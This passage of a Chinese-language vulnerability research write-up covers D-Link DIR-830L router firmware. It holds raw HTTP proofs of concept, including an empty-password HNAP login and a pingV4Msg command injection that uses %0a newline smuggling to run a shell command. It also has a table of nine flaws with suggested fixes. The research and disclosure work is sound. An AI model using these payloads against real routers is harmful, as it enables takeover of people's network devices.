

HTTP报文：

```
POST /HNAP1/ HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/xml

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: text/xml

SOAPACTION: "http://purenetworks.com/HNAP1/Login"

HNAP_AUTH: 13A77F4CAC483FF637E6A359535E0F72 1730100920

Content-Length: 428

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/info/Login.html

Cookie: uid=z9mQNrMzBZ


<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <Login xmlns="http://purenetworks.com/HNAP1/">
            <Action>request</Action>
            <Username>Admin</Username>
            <LoginPassword></LoginPassword>
            <Captcha></Captcha>
        </Login>
    </soap:Body>
</soap:Envelope>
```

## 9. `pingV4Msg` Command Injection

刚开始尝试`pingV4Msg`的注入，但好像不大能bypass，因为它会先做DNS解析，resolve不了就不执行system了：



```
POST /ping.ccp

ccp_act=pingV4Msg&ping_addr=localhost%0abusybox >/www/poc3.html
```

报错：



但是后面发现可以绕过

正如web里面学到的绕过preg\_match常用 `\`一样，这里可以用%0a换行符绕过。

换行符就可以绕过正则匹配。。。

```
POST /ping.ccp HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://192.168.0.1/info/Login.html

Connection: close

Cookie: uid=HIVZV0Zk1C

Upgrade-Insecure-Requests: 1

If-Modified-Since: Fri, 07 Nov 2014 06:35:31 GMT

Content-Type: application/x-www-form-urlencoded

Content-Length: 63


ccp_act=pingV4Msg&ping_addr=127.0.0.1%0abusybox >/www/poc3.html
```





成功绕过~

# 4. 漏洞汇总/经验总结

|  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| **漏洞编号** | **漏洞类型** | **影响组件** | **攻击方式** | **PoC** | **修复建议** |
| 1 | Buffer Overflow | `cancelPing` | 发送超长请求触发栈溢出 | 发送超长`nextPage`参数的请求 | 增加输入长度检查，避免栈溢出 |
| 2 | Command Injection | `ping_v4` | 通过`ping_addr`参数注入命令 | 发送带有`%0a`绕过过滤的命令注入请求 | 对用户输入进行更严格的过滤和校验 |
| 3 | Command Injection | `ping_v6` | 通过`ping_addr`参数注入命令 | 发送带有`%0a`绕过过滤的命令注入请求 | 对用户输入进行更严格的过滤和校验 |
| 4 | Buffer Overflow | `sub_450E7C` | 通过超长字符串触发栈溢出 | 发送超长`Interface`字段的请求 | 增加输入长度检查，避免栈溢出 |
| 5 | Directory Traversal | `web_access.ccp` | 利用路径穿越上传恶意文件 | 发送带有路径穿越的文件上传请求 | 对路径参数进行严格过滤，防止路径穿越攻击 |
| 6 | Denial of Service | `mydlink_api.ccp` | 不传任何payload导致崩溃 | 发送不带有效负载的请求 | 增加对无效输入的检测，防止服务拒绝 |
| 7 | Command Injection | `mydlink_api.ccp` | 通过`api_page`注入命令 | 发送恶意命令注入请求 | 对`api_page`等参数进行严格过滤，防止命令注入攻击 |
| 8 | Hardcoded Credential | `do_login` | 使用硬编码凭证进行登录验证 | 发送带有硬编码凭证的登录请求 | 删除硬编码凭证，使用更安全的认证方式 |
| 9 | Command Injection | `pingV4Msg` | 通过`ping_addr`注入命令 | 发送恶意命令注入请求，%0a绕过 | 对`ping_addr`进行严格过滤，防止命令注入攻击 |

​

在挖掘D-LINK 系列路由器的时候，从网上公开的资料学到了很多：

1. 关键是找到web端和bin端连接的桥梁。对于DIR830L系列就是sbin/ncc2中的callback\_xxx函数
2. 善用 grep -r 搜索关键信息。通过web端bp抓包的参数，可以用grep -r在固件文件中搜索，定位关键二进制文件。
3. %0a等绕过waf的方法。web安全中的bypass技巧同样适用于IoT的web端输入。
